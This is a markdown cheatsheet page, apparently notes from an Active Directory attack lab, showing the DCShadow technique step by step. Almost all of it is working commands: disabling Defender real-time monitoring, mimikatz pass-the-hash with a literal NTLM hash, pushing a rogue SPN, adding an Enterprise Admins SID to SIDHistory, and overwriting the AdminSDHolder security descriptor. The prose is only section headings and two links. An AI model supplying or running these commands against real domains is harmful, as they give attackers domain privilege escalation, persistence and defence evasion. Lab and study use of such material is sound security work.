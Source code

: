 ```yaml
---
layout: page
title: "# DCShadow - Set SPN, Set SIDHistory, Modify params of AdminSDHolder"
permalink: /ad_cheatsheets/dcshadow_set_spn_sidhistory_mod_params_adminsdholder
---
```


# DCShadow - Set SPN, Set SIDHistory, Modify params of AdminSDHolder

## Running Mimikatz.exe

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

.\mimikatz.exe

```

## Modify SPN of root user

```powershell
lsadump::dcshadow /object:root648user /attribute:servicePrincipalName /value:"DCReplication/DC648"
```

## Push Attributes

```powershell
sekurlsa::pth /user:Administrator /domain:moneycorp.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /impersonate

lsadump::dcshadow /push
```

## Checking SPN

```powershell
Get-NetUser -UserName root648user | select serviceprincipalname
```

## Set SIDHistory

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:moneycorp.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /run:powershell.exe"'

. C:\AD\Tools\Set-DCShadowPermissions.ps1 PS C:\AD\Tools> Set-DCShadowPermissions -FakeDC mcorp-student648 -SAMAccountName root648user -Username student648 -Verbose
```

### Push Attributes

```powershell
lsadump::dcshadow /object:root648User /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519

lsadump::dcshadow /push
```

### Getting SID

```powershell
Get-NetUser -UserName student648 | select objectsid
```

```powershell
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(A;CCDCLCSWRPWPLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPLOCRRCWDWO;;;DA)(A;;CCDCLCSWRPWPLOCRRCWDWO;;;S-1-5-21-280534878-1496970234-700767426-519)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;WD)(OA;CI;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)(OA;;RPWP;6db69a1c-9422-11d1-aebd-0000f80367c1;;S-1-5-32-561)(OA;;RPWP;5805bc62-bdc9-4428-a5e2-856a0f4c185e;;S-1-5-32-561)(OA;;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;CA)(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;S-1-5-21-1874506631-3219952063-538504511-1213)

lsadump::dcshadow /push
```

## Resources

[DCShadow](https://book.hacktricks.xyz/windows/active-directory-methodology/dcshadow)

[SIDHistory - Active Directory Security](https://adsecurity.org/?tag=sidhistory)
